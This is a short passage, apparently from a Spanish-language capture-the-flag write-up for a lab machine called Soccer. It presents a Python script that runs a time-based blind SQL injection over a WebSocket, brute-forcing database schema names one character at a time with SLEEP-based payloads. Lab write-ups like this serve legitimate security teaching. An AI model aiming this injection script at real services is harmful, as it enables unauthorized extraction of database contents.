 A continuación dejo el ***script***:      

```python
import asyncio
import websockets
import signal,sys,string,time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+C 
signal.signal(signal.SIGINT,def_handler)

#Variables globales
letters = string.ascii_lowercase + string.punctuation
burp = {'http':'http://127.0.0.1:8080'}
databases = ""
let = ""

async def send_request(request):
    async with websockets.connect('ws://soc-player.soccer.htb:9091/') as websocket:
        await websocket.send(request)
        inicio = time.time()
        response = await websocket.recv()
        fin = time.time()
        response = False
        if fin - inicio >= 2:
            response = True
            global databases
            global let
            databases += let
            p2.status(databases)
        return response

def peticion(request):
    response= asyncio.get_event_loop().run_until_complete(send_request(request))
    return response

if __name__ == "__main__":

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("databases: ")
    time.sleep(2)
    for position in range(1,100):
        for letter in letters:
            let = letter
            payload = f"or if(substr((select group_concat(schema_name) from information_schema.schemata),{position},1)=\'{letter}\',sleep(2),1)"
            request = "{\"id\":\"1 "+payload+"\"}"
            p1.status(request)
            response = peticion(request)
            if response:
                break
```

